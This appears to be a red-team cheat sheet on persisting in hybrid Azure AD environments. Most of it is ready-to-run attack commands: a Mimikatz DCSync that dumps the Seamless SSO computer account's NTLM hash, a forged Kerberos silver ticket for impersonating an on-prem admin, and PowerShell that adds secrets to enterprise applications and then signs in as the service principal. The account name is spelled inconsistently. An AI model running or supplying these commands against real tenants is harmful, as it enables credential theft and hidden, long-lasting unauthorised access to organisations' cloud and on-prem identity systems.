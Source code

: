 # Persistence

## Hybrid identity - Seamless SSO
- If seamless SSO is enabled, a computer account AZUREADSSOC is created in the on-prem AD.
- Password/key of the AZUREADSSOACC never changes.

#### Get NTLM hash of AZUREADSSOC account
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:defeng\azureadssoacc$ /domain:defeng.corp /dc:defeng-dc.defeng.corp"'
```

#### Create a silver ticket
```
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin1 /sid:S-1-5-21-938785110-3291390659-577725712 /id:1108 /domain:defeng.corp /rc4:<> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"' 
```

## Add credentials to enterprise applications
#### Check if secrets (application passwords) can be added to all enterprise applications
```
. .\Add-AzADAppSecret.ps1
Add-AzADAppSecret -GraphToken $graphtoken -Verbose
```

#### Use the secret to autheticate as service principal.
```
$password = ConvertTo-SecureString '<SECRET>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<ACCOUNT ID>', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <TENANT ID>
```

### Check what resources service principal can access
```
Get-AzResource
```
